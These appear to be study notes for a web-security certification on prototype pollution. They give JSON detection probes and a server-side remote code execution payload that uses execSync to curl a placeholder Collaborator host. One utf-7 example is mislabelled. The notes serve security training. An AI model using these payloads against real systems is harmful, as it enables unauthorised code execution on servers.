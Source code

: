 # Prototype Pollution

## Client-side

### Detecting:
- Portswigger heavily suggests the use of DOM invader
- [How to find sources](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#detecting-sources-for-prototype-pollution)
- [How to find gadgets](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#scanning-for-prototype-pollution-gadgets)

## Exploiting
- [Flawed sanitization](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/All%20Lab%20Solutions.md#lab-client-side-prototype-pollution-via-flawed-sanitization)
  - They only gave a manual solution
  - Used a file called `searchlogger.js`
  - Used a property in a property so that when deleted the outer property would remain.
- [Third party libraries](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/All%20Lab%20Solutions.md#lab-client-side-prototype-pollution-in-third-party-libraries)
  - Used DOM invader to find the hitCallback gadget.
  - Used XSS to exploit.

---

## Server-side

### Detecting:

- Three main methods:
  - Status code
    - Use an obscure status code like 517 or 555 etc.
    - Example:
      ```
      "__proto__": { "status":555 }
      "constructor": { "prototype": { "status":555 } }
      ```
  - JSON spaces
    - Spaces to change the appearance in the raw view in burp suite
    - Example:
      ```
      "__proto__": { "json spaces":10 }
      "constructor": { "prototype": { "json spaces":10 } }
      ```
  - Charset override
    - Use a different charset, if it works the characters will be translated to utf-8 in the response
    - So send something like the username in utf-7 and see if it is translated.
    - Example:
      ```
      +AGYAbwBv- --> "default" in utf-7
      "__proto__": { "content-type": "application/json; charset=utf-7" }
      "constructor": { "prototype": { "content-type": "application/json; charset=utf-7" } }
      ```
- There is a burp extension to scan for this.

## Exploiting:
- You can get remote code execution
  - [Portswigger](https://portswigger.net/web-security/prototype-pollution/server-side)
  - Payload: `"execArgv":[ "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')" ]`

## Other important notes:

